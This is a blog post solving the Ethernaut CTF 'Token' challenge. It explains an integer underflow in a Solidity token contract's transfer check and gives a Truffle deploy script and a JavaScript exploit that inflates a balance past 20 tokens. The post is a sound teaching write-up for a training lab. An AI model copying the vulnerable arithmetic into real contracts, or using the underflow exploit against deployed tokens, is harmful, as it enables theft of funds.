 Title: Solving Zeppelin's Ethernaut CTF - Token
Date: 2018-06-10 22:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-token
Summary: Sixth post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Token, we hack a basic token contract and manage our way to earn a huge amount of ethers.

## Introduction
The [Token contract](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"} simulates a basic token built on the Ethereum blockchain. It is not a full [ERC20](https://theethereum.wiki/w/index.php/ERC20_Token_Standard), but hey, you gotta start somewhere. Our main goal is to 'steal' as many tokens as we can from the contract, so let's dive right into it.

## The Token contract
The contract is deployed with some initial supply of tokens, as you can see in its constructor. That initial supply is both set as the total supply of tokens and saved as the balance of the contract's deployer.
~~~solidity
function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
}
~~~

The function `balanceOf` lets any caller see how many token a certain address has.
~~~solidity
function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
}
~~~

Finally, the `transfer` function is where the core business logic of the contract lives, and where we're gonna aim our weapons at:
~~~solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
~~~

It basically allows any caller to 'send' (i.e. change the balances in the contract's storage) a certain amount (`_value`) of tokens from his/her address to the one passed as an argument (`_to`).

While the first line *tries* to ensure the caller has enough tokens to make the transaction, lines 2 and 3 actually implement the swap between the source and destination addresses.

Focus on line 1 for now: `require(balances[msg.sender] - _value >= 0);`.

We know that `balances[msg.sender]` and `_value` are both `uint` variables, right ? Well, then you're witnessing a real Solidity underflow, which results from unsafely extracting an `uint` from another.Let me put it straight. The difference between two `uint`, is another `uint`, meaning that the difference will always be equal or greater than zero! Thus, the condition `balances[msg.sender] - _value >= 0` will always evaluate to true.

Following that line of thought, the second line of the function is where our balance is decreased. However, we can underflow that as well!. According to the challenge text, our account starts with 20 tokens. What if we tried transferred 21 tokens ?. The resulting operation would look like:

~~~solidity
balances[msg.sender] = 20 - 21;
~~~

Since a `uint` cannot take the value -1, instead the variable underflows and the result of the operation, stored as the caller's balance, is 2^256 - 1.

Having analyzed the contract's vulnerability, include its code in `contracts/Token.sol` and deploy it to the local blockchain by including the following snippet in `migrations/2_deploy_contracts.js`.

~~~javascript
let Token = artifacts.require('./Token.sol')
const TOKEN_INITIAL_SUPPLY = 20
module.exports = deployer => {
    deployer.deploy(Token, TOKEN_INITIAL_SUPPLY)
}
~~~

Then run `truffle migrate`.

## The exploit
In this case, the vulnerability is easy to exploit. The exploit consists of just calling the `transfer` function with a value greater than 20.
~~~javascript
const TokenContract = artifacts.require('Token')
const assert = require('assert')

async function execute(callback) {

    let contract = await TokenContract.deployed()

    let balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance, 20)
    console.log(`Initial balance: ${balance}`)

    await contract.transfer(web3.eth.accounts[1], 21)

    balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance > 20, true)
    console.log(`Final balance: ${balance} tokens`)

}

module.exports = execute
~~~

That's it. After running `truffle exec exploits/token.exploit.js`, you should see that the balance of the account if far greater than 20 tokens.

You can also [find the exploit code at my Github repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/token.exploit.js). Although you might find some differences between the code in the repository and the one included in this post, the exploits work exactly the same. I made some changes to the exploit written here to make it simpler and clearer.

Thanks for reading! In the next part of these series, we will tackle the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:rel="noopener"} and study the dangers of using a low-level call such as `delegatecall` in Solidity.
